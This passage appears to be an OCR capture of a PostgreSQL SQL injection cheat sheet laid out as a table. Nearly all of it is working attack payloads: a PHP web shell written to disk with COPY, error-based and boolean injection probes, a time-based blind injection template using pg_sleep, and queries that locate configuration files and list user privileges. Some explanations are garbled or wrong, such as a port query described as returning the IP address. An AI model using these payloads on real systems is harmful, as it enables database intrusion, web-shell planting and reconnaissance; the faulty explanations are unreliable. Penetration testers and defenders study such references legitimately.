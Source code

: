 . | INSERT INTO mytable(mycol) VALUES (‘<?
. | pasthru($_GET[cmd]); ?>’);
. | COPY mytable (mycol) TO ‘/tmp/test.php’;
. | - priv, write files as postgres OS-level user. Generally, you will not be able to write to the web root.
. | - priv user can also read/write files by mapping libc functions.
Hostname, IP Address | SELECT inet_server_addr();
. | - This command returns db server IP address (or null if using local connection).
. | SELECT inet_server_port();
. | - This command returns db server IP address (or null if using local connection)
Error Based SQLi attack: To throw conversion errors. | cast((chr(95)||current_database()) as numeric);
. | - This command is used to receive integer inputs.
. | '||cast((chr(95)||current_database()) as numeric)||';
. | -  This command is used to receive string inputs.
Clear SQLi Tests: For Boolean SQL injection and silent attacks | .
. | product.php?id=4
. | product.php?id=5-1
. | product.php?id=4 OR 1=1
. | product.php?id=-1 OR 17-7=10
. | - These commands can be used as tests for Boolean SQLinjection and silent attacks.
Time based SQLi Exploitation | ?vulnerableParam=-1; SELECT CASE WHEN (COALESCE(ASCII(SUBSTR(({INJECTION}),1,1)),0) > 100) THEN pg_sleep(14) ELSE pg_sleep(0) END LIMIT 1--+;
. | {INJECTION} = You want to run the query.
. | - If the condition is true, will response after 14 seconds. If is false, will be delayed for one second.
Default Databases | template0
. | template1
Path of DB files | SELECT current_setting('data_directory');
. | -This command returns the path of data_directory
. | (C:/Program Files/PostgreSQL/8.3/data)
. | SELECT current_setting('hba_file');
. | - This command returns the path of hba_file (C:/Program Files/PostgreSQL/8.3/data/pg_hba.conf)
Location of DB Files | SELECT current_setting(‘data_directory’);
. | -This command returns the location of the data_directory.
. | SELECT current_setting(‘hba_file’);
. | - This command returns the location of the hba_file. 
privileges | SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
. | This command returns the user names along with their privileges from the table ‘pg_user’.
